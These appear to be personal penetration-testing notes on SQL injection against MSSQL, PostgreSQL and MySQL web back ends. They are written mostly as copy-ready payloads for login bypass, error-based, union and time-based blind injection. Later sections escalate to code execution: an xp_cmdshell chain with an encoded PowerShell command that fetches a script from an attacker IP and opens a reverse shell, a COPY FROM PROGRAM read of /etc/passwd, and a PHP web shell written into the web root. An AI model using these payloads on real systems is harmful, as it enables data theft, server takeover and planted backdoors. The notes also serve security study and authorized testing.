 # SQL Injection

On Kali, to connect to an MSSQL database on a Windows machine, do:

```
impacket-mssqlclient ${USER}:${PW}@${RHOST} -windows-auth
```

Start by giving it simple queries that tell you something about what query the web application is attempting to make.
Then, use [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for inspiration on enumeration.

## Error based

When logging into an application, you might see errors from the underlying databases.
This can be a sign of potential for SQL injection.
A good starting point to check for that would be:

```
admin' OR 1=1 -- //
```

This is good against queries such as `SELECT * from users where user=$user and pw=$pw`.
The early `' OR 1=1 -- //` is an attempt at ending the query early by outcommenting the `and...` statement and instead evaluating `1=1`.


A good trick for error based injection, once you have a simple query, is to  `CAST` the value you want to a wrong type:

```
' Union SELECT null, CAST(CURRENT_USER as int), null, null, null, null from user
```

so that the value shows up in the error on the web page.

*Note* the `null,` as the first part of the select-statement.
doing a `CAST` directly after `SELECT` didn't work with postgresql.

### In-band Union based injection

When the results are shown on the page, it can be good to attempt a Union based attack.
This often happens when the underlying database runs a query like

```
SELECT * WHERE UserInfo LIKE $userInput
```
and the result is simply shown on the corresponding website.
Start by enumerating the number of collumns in the table.
Once that is done, you will be able to get a number of columns where you can see the output 


then, we can do futher enumeration like:

```
' UNION SELECT null, user(), @@version, database(), null, null  -- //
```
or enumeration queries as seen in the bottom of this note document.


Obscure way to check if a user is superuser:

```
SELECT usesuper, CASE WHEN (usesuper = true) THEN 1/(SELECT 0) ELSE (SELECT 0) END from pg_user where usename = CURRENT_USER
```

## Blind SQLi


To test for blind boolean-based SQLi, do something like:

```
admin' AND 1=1 -- //
```

This will only return true if the `admin` user exists.

Similarly, for time-based SQLi, we can do something like:

```
admin' AND IF (1=1, sleep(4),'false') 
```
which will return after 4 seconds when `admin` exists.


For time-based SQLi, do something like this with MSSQL:

```
admin' UNION SELECT null, null IF EXISTS (SELECT table_catalog, table_name FROM information_schema.columns WHERE table_name = 'users') waitfor delay '0:0:10'
```
If you don't want to use the `EXISTS` keyword, you can do stuff like:

```
admin' UNION SELECT null, null IF ((SELECT COUNT (*) FROM users) = 0) waitfor delay '0:0:10' -- //
```
keep in mind if the `users` table doesn't exist, this query does not wait.


## Good enumeration queries for MySQL

```
SELECT table_name FROM information_schema.tables
```
equivalent to `SHOW DATABASES`:
```
SELECT schema_name 
FROM information_schema.schemata;
```



## In Practice: Getting RCE from SQLi

### MSSQL (Error Based)

Assume we find an input field on a website vulnerable to SQLi in MSSQL, the process goes like this:

in burp, assume we can set the Username like this:

```
Username=admin'+UNION+SELECT+1,2--//
```

And execute SQL.

Start by using this statement to figure out how many columns are in the table we are querying:

Starting out `UNION SELECT 1 --//`
and add `,2,3,4,5...` one at a time until you don't get an error
Now, you know how many colums are in the table you are querying.



Now, let's see if we can get a shell.
Looks like we can execute arbitrary SQL on the machine by terminating the statement with ; and running:

```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
EXEC master.dbo.xp_cmdshell 'powershell -enc $ENCODED_REV_SHELL';
```

This could for instance look like this for the final statement:

```
Username=admin';EXEC master.dbo.xp_cmdshell 'powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMQAwADoAOAAwAC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQAwACAALQBwACAANAA0ADMAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA==';--//
```


### PostgreSQL (Error Based)


Assume we have a parameter on a site that is vulnerable, and we figure out the db is postgresql on a linux machine:

Now, we can do stuff like:


```
'; SELECT 1=cast((SELECT current_user) as int) --
```

This will attempt to cast the username as an int, throwing an exception.
Assume the result is  `joe`.
We can check if `joe` is a superuser with:


```
'; SELECT usesuper, CASE WHEN (usesuper = true) THEN 1/(SELECT 0) ELSE (SELECT 0) END from pg_user where usename = 'joe' --
```

This will give a divison by zero error if `joe` is a superuser.
If he is, and the postgresql server is in certain versions, we can now get RCE with:

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'cat /etc/passwd';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

This could be done by downloading and running a `shell.sh`.


### MySQL (Error Based)

Assuming we have some field that's vulnerable, and the web server is a php server with a MySQL backend.
Note that this example stops the query with `#` as MySQL uses that as a comment character.
If the param is `email=`, let's start by figuring out the number of colums in the table being queried:

 ```
email=hacks%40hacks.com' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36 #
```
Assume we can see it complains about column 5. So the query being made is made to a table with 4 columns. 

Then, we can write a shell we can exploit:

```
email=hacks%40hacks.com' UNION SELECT null, "<?php echo shell_exec($_GET['cmd']);?>", null, null into OUTFILE '/var/www/html/shell.php' #
```

Now, we can access `shell.php` in `/shell.php`.


(note, for windows, we can put it in `C:/inetpub/wwwroot/shell.php`)





